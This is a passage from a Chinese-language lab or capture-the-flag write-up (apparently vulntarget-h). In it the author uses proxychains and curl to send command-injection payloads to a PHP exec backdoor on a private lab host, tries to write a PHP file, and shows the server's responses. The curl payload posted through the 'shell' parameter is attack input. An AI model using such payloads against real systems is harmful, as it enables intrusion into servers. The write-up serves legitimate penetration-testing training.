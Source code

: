 ```bash
+ Scan terminated:  12 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-07-02 03:13:08 (GMT-4) (2369 seconds)
```

#### 上传木马

+ 使用浏览器查看网页是否有对我们有用的信息。(需要把火狐浏览器代理模式设置成系统代理)

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 firefox 192.168.153.128
```

![截图_2022-07-02_15-08-05.png](../images/vulntarget-h%20write-up/截图_2022-07-02_15-08-05.png)

+ 从上面的返回的结果我们可以看到这是需要我们通过命令注入查看`c:\phpstudy_pro\COM\a.txt`文件的内容。由于这里使用`exec`函数并没有返回数据。

+ 我们先尝试能不能在当前目录写入文件。发现并不可以。

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 curl 192.168.153.128 -d "shell=echo '<?php phpinfo();?>'>l.php"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
<code><span style="color: #000000">
<br /></span><span style="color: #0000BB">exec</span><span style="color: #007700">(</span><span style="color: #0000BB">$_POST</span><span style="color: #007<br /></span><span style="color: #0000BB">?></span>小子留下了一个后门，读一下c:\phpstudy_pro\COM\a.txt吧里面有好东西
</span>
</code>         

┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 curl 192.168.153.128/l.php                                     
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="utf-8">
  <title>404 错误 - phpstudy</title>
  ...
</head>
...
</html>
```
